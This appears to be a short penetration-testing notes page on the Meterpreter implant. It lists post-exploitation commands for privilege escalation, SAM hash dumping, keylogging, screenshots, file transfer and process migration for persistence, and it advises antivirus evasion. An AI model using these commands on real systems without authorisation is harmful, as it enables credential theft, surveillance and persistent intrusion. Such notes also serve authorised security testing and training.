 Meterpreter is an implant and framework used in conjunction with [[Metasploit]]'s `exploit/multi/handler` handler framework. 

Some useful commands include:
```shell
getsystem # Attempt to escalate to NT AUTHORITY\SYSTEM via several common privileges and rights
hashdump # Dump hashes from the local SAM (requires SYSTEM privileges)
load # Load any of many helpful modules (kiwi O.O)
netstat # Display network adapter information
arp # Display client ARP table
shell # Drop into a native shell to use the client's command line raw. Helpful if functionality is not replicated into Meterpreter, like domain enumeration via LOLBins
upload/download # Single command to transfer files is super helpful
keyscan_start/keyscan_dump/keyscan_stop # Built-in keylogger functionality
screenshot # Check the desktop for useful information
migrate # Move your session into another binary's memory space. Useful for persistence, especially if you manage to migrate into system-critical processes, and potentially for privilege escalation.
```

Meterpreter's kiwi module includes lots of the same functionality as [[Mimikatz]] but targeted specifically at local SAM databases and Kerberos. Most of the domain-crossing and havoc-wreaking functionality is not in place. For a more full-featured impementation, use [[Sliver C2]] or upload the binary to the target machine and use it manually. 

There are also some joke commands like video chatting with the victim, playing audio recordings over the speakers, and more. 

Likely to be flagged by AV software, even with the encoders provided, so use the techniques described in [[Evasion]] to avoid detection. 
